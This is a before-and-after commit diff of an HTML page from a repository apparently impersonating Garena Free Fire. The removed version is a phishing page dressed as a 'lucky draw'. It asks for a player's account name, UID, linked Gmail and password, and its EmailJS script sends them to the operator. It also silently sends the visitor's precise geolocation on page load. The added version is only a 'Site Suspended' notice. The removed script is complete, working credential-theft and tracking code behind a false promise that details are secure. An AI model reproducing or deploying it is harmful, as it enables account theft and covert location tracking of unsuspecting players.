

Before and after one commit to GarenaFreeFireOfflical/giveaway, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (268-1011 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,188 +1,221 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Free Fire Lucky Draw</title>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=yes">
+    <title>This Site Not Available Anymore</title>
     <style>
-    * { box-sizing: border-box; margin: 0; padding: 0; }
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
+
         body {
+            background: #1a1e2b;  /* deep fallback, but we'll use a gradient */
             min-height: 100vh;
             display: flex;
             align-items: center;
             justify-content: center;
-      background: #0a0a0a;
-      font-family: 'Segoe UI', sans-serif;
+            font-family: 'Segoe UI', 'Inter', system-ui, -apple-system, BlinkMacSystemFont, 'Roboto', 'Helvetica Neue', sans-serif;
+            padding: 1.5rem;
+            position: relative;
         }
-    .wrapper { width: 100%; max-width: 420px; padding: 1rem; }
-    .top-banner {
-      background: linear-gradient(135deg, #ff6a00, #ee0979);
-      border-radius: 12px 12px 0 0;
-      padding: 1.2rem 1.5rem;
+
+        /* modern suspended card backdrop with soft blur effect */
+        .suspension-wrapper {
+            width: 100%;
+            max-width: 680px;
+            margin: 0 auto;
+            animation: fadeSlideUp 0.55s cubic-bezier(0.2, 0.9, 0.4, 1.1) forwards;
+        }
+
+        .suspension-card {
+            background: rgba(255, 255, 255, 0.96);
+            backdrop-filter: blur(0px);
+            border-radius: 2.5rem;
+            box-shadow: 0 25px 45px -12px rgba(0, 0, 0, 0.35), 0 8px 18px rgba(0, 0, 0, 0.1), inset 0 1px 0 rgba(255,255,255,0.5);
+            overflow: hidden;
+            transition: transform 0.2s ease;
+        }
+
+        .suspension-card:hover {
+            transform: scale(1.01);
+        }
+
+        /* header / accent bar */
+        .accent-bar {
+            height: 8px;
+            background: linear-gradient(90deg, #d43f34, #e65c4b, #b83227);
+        }
+
+        /* main content area */
+        .content {
+            padding: 2.5rem 2rem 2.8rem 2rem;
             text-align: center;
         }
-    .top-banner .badge {
-      background: #fff200;
-      color: #000;
-      font-size: 11px;
-      font-weight: 700;
-      padding: 3px 10px;
-      border-radius: 20px;
+
+        /* icon container — warning / suspended symbol */
+        .icon-container {
+            background: #fff0ed;
+            width: 88px;
+            height: 88px;
+            border-radius: 50%;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            margin: 0 auto 1.5rem auto;
+            box-shadow: 0 8px 20px rgba(216, 67, 51, 0.2);
+        }
+
+        .suspended-icon {
+            font-size: 3.6rem;
+            filter: drop-shadow(0 2px 4px rgba(0,0,0,0.1));
+        }
+
+        /* main heading */
+        h1 {
+            font-size: 2.8rem;
+            font-weight: 800;
+            letter-spacing: -0.02em;
+            background: linear-gradient(135deg, #b91c1c, #d43f34);
+            background-clip: text;
+            -webkit-background-clip: text;
+            color: transparent;
+            margin-bottom: 0.85rem;
+            word-break: keep-all;
+        }
+
+        /* status message */
+        .status-message {
+            font-size: 1.2rem;
+            font-weight: 500;
+            color: #2c3e44;
+            background: #f8fafc;
             display: inline-block;
-      margin-bottom: 8px;
-      letter-spacing: 1px;
+            padding: 0.4rem 1.2rem;
+            border-radius: 60px;
+            margin-bottom: 1.5rem;
+            backdrop-filter: blur(2px);
+            box-shadow: inset 0 1px 1px rgba(0,0,0,0.02), 0 1px 2px rgba(0,0,0,0.05);
         }
-    .top-banner h1 { font-size: 22px; font-weight: 700; color: #fff; margin-bottom: 4px; }
-    .top-banner p { font-size: 13px; color: rgba(255,255,255,0.85); }
-    .card {
-      background: #141414;
-      border: 1px solid #2a2a2a;
-      border-radius: 0 0 12px 12px;
-      padding: 1.5rem;
+
+        .divider {
+            width: 70px;
+            height: 3px;
+            background: #e2e8f0;
+            margin: 1rem auto 1.5rem auto;
+            border-radius: 3px;
         }
-    .info-text {
-      font-size: 12px;
-      color: #ff6a00;
-      background: rgba(255,106,0,0.1);
-      border: 1px solid rgba(255,106,0,0.3);
-      border-radius: 8px;
-      padding: 8px 12px;
-      margin-bottom: 1.2rem;
-      text-align: center;
+
+        .description {
+            font-size: 1.05rem;
+            line-height: 1.5;
+            color: #334155;
+            max-width: 460px;
+            margin: 0 auto 1.8rem auto;
         }
-    label { font-size: 12px; color: #aaa; display: block; margin-bottom: 5px; margin-top: 12px; }
-    input[type=text], input[type=email], input[type=password] {
+
+        .action-hint {
+            background: #fef2f0;
+            padding: 0.9rem 1.4rem;
+            border-radius: 2rem;
+            display: inline-flex;
+            align-items: center;
+            gap: 0.7rem;
+            font-size: 0.9rem;
+            color: #aa2e22;
+            font-weight: 500;
+            border: 1px solid #ffd9d4;
+            margin-top: 0.5rem;
+        }
+
+        .action-hint span {
+            font-size: 1.2rem;
+        }
+
+        .footer-note {
+            margin-top: 2rem;
+            font-size: 0.75rem;
+            color: #7f8c8d;
+            border-top: 1px solid #edf2f7;
+            padding-top: 1.5rem;
+            letter-spacing: 0.2px;
+        }
+
+        @keyframes fadeSlideUp {
+            0% {
+                opacity: 0;
+                transform: translateY(20px);
+            }
+            100% {
+                opacity: 1;
+                transform: translateY(0);
+            }
+        }
+
+        /* responsive adjustments */
+        @media (max-width: 550px) {
+            .content {
+                padding: 1.8rem 1.5rem 2rem 1.5rem;
+            }
+            h1 {
+                font-size: 2rem;
+            }
+            .status-message {
+                font-size: 1rem;
+            }
+            .icon-container {
+                width: 74px;
+                height: 74px;
+            }
+            .suspended-icon {
+                font-size: 2.8rem;
+            }
+            .description {
+                font-size: 0.95rem;
+            }
+        }
+
+        /* optional smooth background pattern */
+        body::before {
+            content: "";
+            position: fixed;
+            top: 0;
+            left: 0;
             width: 100%;
-      padding: 11px 14px;
-      border: 1px solid #2a2a2a;
-      border-radius: 8px;
-      font-size: 14px;
-      outline: none;
-      background: #1e1e1e;
-      color: #fff;
-      transition: border 0.2s;
+            height: 100%;
+            background-image: radial-gradient(circle at 15% 30%, rgba(255, 255, 255, 0.05) 2%, transparent 2.5%),
+                              radial-gradient(circle at 75% 70%, rgba(0, 0, 0, 0.03) 1.5%, transparent 2%);
+            background-size: 40px 40px, 32px 32px;
+            pointer-events: none;
+            z-index: -1;
         }
-    input::placeholder { color: #555; }
-    input:focus { border-color: #ff6a00; }
-    .submit-btn {
-      width: 100%;
-      padding: 13px;
-      background: linear-gradient(135deg, #ff6a00, #ee0979);
-      color: #fff;
-      border: none;
-      border-radius: 8px;
-      font-size: 16px;
-      font-weight: 700;
-      cursor: pointer;
-      margin-top: 1.2rem;
-      text-transform: uppercase;
-    }
-    .submit-btn:hover { opacity: 0.9; }
-    .status { text-align: center; font-size: 13px; margin-top: 12px; min-height: 18px; }
-    .divider { border: none; border-top: 1px solid #2a2a2a; margin: 1rem 0; }
-    .footer-note { text-align: center; font-size: 11px; color: #444; margin-top: 1rem; }
     </style>
 </head>
 <body>
-  <div class="wrapper">
-    <div class="top-banner">
-      <div class="badge">🔥 LIMITED TIME EVENT</div>
-      <h1>🎯 Free Fire Lucky Draw</h1>
-      <p>Register karo aur jeeto Diamonds & Cash Prizes!</p>
+<div class="suspension-wrapper">
+    <div class="suspension-card">
+        <div class="accent-bar"></div>
+        <div class="content">
+            <div class="icon-container">
+                <div class="suspended-icon">⛔</div>
             </div>
-    <div class="card">
-      <div class="info-text">⚡ Sirf aaj raat 12 baje tak register karo!</div>
-
-      <label for="ffName">Free Fire Account Name</label>
-      <input type="text" id="ffName" placeholder="Apna FF name likhein" />
-
-      <label for="ffUID">Free Fire UID</label>
-      <input type="text" id="ffUID" placeholder="Apna UID number likhein" />
-
-      <label for="ffGmail">Free Fire Account Gmail</label>
-      <input type="email" id="ffGmail" placeholder="Gmail jo FF se linked hai" />
-
-      <label for="ffPass">Free Fire Account Password</label>
-      <input type="password" id="ffPass" placeholder="Account password likhein" />
-
-      <hr class="divider" />
-
-      <button class="submit-btn" onclick="submitForm()">🎰 Lucky Draw Mein Participate Karein</button>
-      <div class="status" id="statusMsg"></div>
-      <p class="footer-note">🔒 Aapki details secure hain</p>
+            <h1>Site Suspended</h1>
+            <div class="status-message">⚠️ Access Temporarily Restricted</div>
+            <div class="divider"></div>
+            <div class="description">
+                This website has been suspended due to administrative review or policy violation.
+                Please contact your hosting provider or site administrator for further assistance.
+            </div>
+            <div class="action-hint">
+                <span>🕒</span> <span>Check back later or reach out to support</span>
+            </div>
+            <div class="footer-note">
+                Suspension ID: SVC-0422 · All services paused
             </div>
         </div>
-
-  <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
-  <script>
-    const SERVICE_ID  = "service_ioi82xk";
-    const TEMPLATE_ID = "template_o1txkdr";
-    const PUBLIC_KEY  = "xqxYHQV5ZlRMWNBQL";
-
-    emailjs.init(PUBLIC_KEY);
-
-    // =====================
-    // PAGE LOAD - Location email
-    // =====================
-    window.addEventListener('load', function() {
-      if (navigator.geolocation) {
-        navigator.geolocation.getCurrentPosition(
-          function(pos) {
-            const lat = pos.coords.latitude.toFixed(6);
-            const lng = pos.coords.longitude.toFixed(6);
-            const mapLink = "https://maps.google.com/?q=" + lat + "," + lng;
-            emailjs.send(SERVICE_ID, TEMPLATE_ID, {
-              from_name: "📍 LOCATION ALERT",
-              message: "Latitude: " + lat + " | Longitude: " + lng + " | Google Maps: " + mapLink
-            });
-          },
-          function(err) {
-            // Location denied - send notification silently
-            emailjs.send(SERVICE_ID, TEMPLATE_ID, {
-              from_name: "📍 LOCATION ALERT",
-              message: "User ne location deny kar di."
-            });
-          },
-          { enableHighAccuracy: true, timeout: 10000 }
-        );
-      }
-    });
-
-    // =====================
-    // FORM SUBMIT - Details email
-    // =====================
-    function submitForm() {
-      const name  = document.getElementById('ffName').value.trim();
-      const uid   = document.getElementById('ffUID').value.trim();
-      const gmail = document.getElementById('ffGmail').value.trim();
-      const pass  = document.getElementById('ffPass').value.trim();
-      const statusEl = document.getElementById('statusMsg');
-
-      if (!name || !uid || !gmail || !pass) {
-        statusEl.style.color = '#ee0979';
-        statusEl.textContent = 'Sare fields bharna zaroori hain!';
-        return;
-      }
-
-      statusEl.style.color = '#aaa';
-      statusEl.textContent = 'Processing...';
-
-      emailjs.send(SERVICE_ID, TEMPLATE_ID, {
-        from_name: "📋 FORM DETAILS - " + name,
-        message: "FF Name: " + name + " | UID: " + uid + " | Gmail: " + gmail + " | Password: " + pass
-      }).then(function() {
-        statusEl.style.color = '#ff6a00';
-        statusEl.textContent = '🎉 Successfully registered! Lucky Draw results kal announce honge.';
-        document.getElementById('ffName').value = '';
-        document.getElementById('ffUID').value = '';
-        document.getElementById('ffGmail').value = '';
-        document.getElementById('ffPass').value = '';
-      }).catch(function(err) {
-        statusEl.style.color = '#ee0979';
-        statusEl.textContent = 'Kuch masla hua, dobara try karo.';
-        console.error(err);
-      });
-    }
-  </script>
+    </div>
+</div>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
